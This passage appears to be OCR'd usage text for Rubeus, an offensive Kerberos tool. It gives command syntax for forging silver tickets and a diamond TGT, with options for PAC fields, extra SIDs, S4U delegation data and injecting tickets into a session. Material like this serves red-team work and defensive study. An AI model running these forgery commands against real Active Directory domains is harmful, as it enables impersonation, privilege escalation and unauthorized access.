         Forge a silver ticket using LDAP to gather the relevent information:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/extendedupndns] [/nofullpacsig] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket using LDAP to gather the relevent information, using the KRBTGT key to calculate the KDCChecksum and TicketChecksum:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap </krbkey:HASH> [/krbenctype:DES|RC4|AES128|AES256] [/extendedupndns] [/nofullpacsig] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket using LDAP to gather the relevent information but explicitly overriding some values:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/dc:DOMAIN_CONTROLLER] [/domain:DOMAIN] [/netbios:NETBIOS_DOMAIN] [/sid:DOMAIN_SID] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/authdata] [/extendedupndns] [/nofullpacsig] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket using LDAP to gather the relevent information and including an S4U Delegation Info PAC section:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/s4uproxytarget:TARGETSPN] [/s4utransitedservices:SPN1,SPN2,...] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket using LDAP to gather the relevent information and setting a different cname and crealm:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/cname:CLIENTNAME] [/crealm:CLIENTDOMAIN] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket, setting values explicitly:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> </domain:DOMAIN> </sid:DOMAIN_SID> [/dc:DOMAIN_CONTROLLER] [/netbios:NETBIOS_DOMAIN] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/authdata] [/cname:CLIENTNAME] [/crealm:CLIENTDOMAIN] [/s4uproxytarget:TARGETSPN] [/s4utransitedservices:SPN1,SPN2,...] [/extendedupndns] [/nofullpacsig] [/printcmd] [outfile:FILENAME] [/ptt]

		Forge a diamond TGT by requesting a TGT based on a user password/hash:
			Rubeus.exe diamond /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/createnetonly:C:\Windows\System32\cmd.exe] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/krbkey:HASH] [/ticketuser:USERNAME] [/ticketuserid:USER_ID] [/groups:GROUP_IDS] [/sids:EXTRA_SIDS]
    